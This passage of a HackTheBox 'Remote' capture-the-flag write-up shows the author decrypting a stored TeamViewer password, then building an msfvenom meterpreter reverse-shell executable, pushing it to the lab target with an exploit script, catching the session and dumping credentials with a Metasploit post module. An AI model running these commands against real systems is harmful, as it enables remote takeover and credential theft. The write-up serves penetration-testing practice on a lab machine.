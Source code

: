 ```python
print(hexdump.hexdump(raw_un))

password = raw_un.decode('utf-16')
print(password)
```

using the python exploit to decrypt the password stored in the reg key I found

```text
zweilos@kali:~/htb/remote$ python3 teamviewer-pass.py 
00000000: 72 00 33 00 6D 00 30 00  74 00 65 00 5F 00 4C 00  r.3.m.0.t.e._.L.
00000010: 30 00 67 00 69 00 6E 00  00 00 00 00 00 00 00 00  0.g.i.n.........
None
r3m0te_L0gin
```

This password didn't seem to do me any good. During research found a post exploit metasploit module that says it will find tv pass, I wanted to see if it was the same one. [https://www.rapid7.com/db/modules/post/windows/gather/credentials/teamviewer\_passwords](https://www.rapid7.com/db/modules/post/windows/gather/credentials/teamviewer_passwords) [https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer\_passwords.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md)

> Any Windows host with a `meterpreter` session and `TeamViewer 7+` installed.

So I will need a meterpreter session

### Getting a shell

```text
zweilos@kali:~$ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.15.82 LPORT=4444 -f exe -o rev.exe
```

sending msfvenom payload to remote system

```text
python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a 'C:\\Windows\\Temp\\r.exe'
```

[https://security.stackexchange.com/questions/133722/how-to-set-reverse-tcp-connection-when-doing-pentesting-in-vms](https://security.stackexchange.com/questions/133722/how-to-set-reverse-tcp-connection-when-doing-pentesting-in-vms)

```text
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.15.82
LHOST => 10.10.15.82
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.15.82:4444 
[*] Sending stage (176195 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.15.82:4444 -> 10.10.10.180:49711) at 2020-07-05 23:15:59 -0400

meterpreter > run post/windows/gather/credentials/teamviewer_passwords

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /root/.msf4/loot/20200705232131_default_10.10.10.180_host.teamviewer__634180.txt
[*] <---------------- | Using Window Technique | ---------------->
```